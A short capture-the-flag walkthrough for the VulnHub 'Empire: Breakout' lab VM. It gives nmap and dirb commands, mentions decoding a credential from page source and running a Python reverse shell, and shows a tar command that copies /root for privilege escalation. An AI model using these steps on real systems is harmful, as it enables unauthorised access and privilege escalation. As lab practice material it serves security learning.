 

# Empire Walkthrough

**VulnHub Link:** [Empire](https://www.vulnhub.com/entry/empire-breakout,751/)
**Difficulty:** Easy
**Release Date:** 21 Oct 2021


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```

cyber user found 

in 192.168.100.99:80  page source , encoding captured and decoded 

in 192.168.100.99:20000 logged in and executed python reverse shell command

logged as cyber user and user flag captured


## 3.Privilege Escalation

```bash
./tar -cf root.tar /root/
./tar -xvf root.tar
```
and root flag captured.!

